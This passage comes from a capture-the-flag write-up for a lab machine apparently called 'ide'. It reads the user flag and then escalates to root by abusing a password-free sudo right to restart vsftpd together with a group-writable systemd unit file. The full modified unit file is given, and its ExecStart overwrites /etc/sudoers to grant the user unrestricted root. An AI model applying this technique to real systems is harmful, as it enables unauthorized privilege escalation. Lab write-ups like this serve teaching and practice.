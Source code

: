 Now we can do a little clean up and close all the shells that we used for the exploit to work.

## User Flag

Now that we have a stable shell as user `drac`, let's go ahead and read the user flag:

~~~
drac@ide:~$ cat user.txt 
02930d21a8eb009f6d26361b2d24a466
~~~

User flag: `02930d21a8eb009f6d26361b2d24a466`

## Privilege Escalation

Now it's time for privilege escalation. First I ran `sudo -l` to check my sudo permissions:

~~~
drac@ide:~$ sudo -l
[sudo] password for drac: 
Matching Defaults entries for drac on ide:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User drac may run the following commands on ide:
    (ALL : ALL) /usr/sbin/service vsftpd restart
~~~

As you can see, we can `restart` the `vsftpd` service, with sudo and no password. We can exploit this service, if we have write access to its config file which is `/lib/systemd/system/vsftpd.service`:

~~~
drac@ide:~$ ls -la /lib/systemd/system/vsftpd.service
-rw-rw-r-- 1 root drac 248 Aug  4 07:24 /lib/systemd/system/vsftpd.service
~~~

Great! We can edit it. We can do a few things here. One is to create a bash reverse shell and change the config file, so that it runs our reverse shell on a restart. Since it is being run by root, we will receive a root shell.

Another one is to modify `/etc/sudoers` which only root can access using `echo` command to change sudo permissions of user drac to "ALL" and again, it is being run by root, so we have enough permission to edit this file.

I'm gonna take the second path, since it is faster and a bit more technical. First, let's head to `/lib/systemd/system` where the config file for vsftpd service is. Then use `nano` (`vim` is also available) to edit `vsftpd.service`. Change the content to the following (We are just changing `ExecStart`, which specifies the commands that run after booting or rebooting the service):

~~~
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/bin/bash -c 'echo "drac ALL=(root) NOPASSWD: ALL" > /etc/sudoers'
ExecReload=/bin/kill -HUP $MAINPID
ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty

[Install]
WantedBy=multi-user.target
~~~
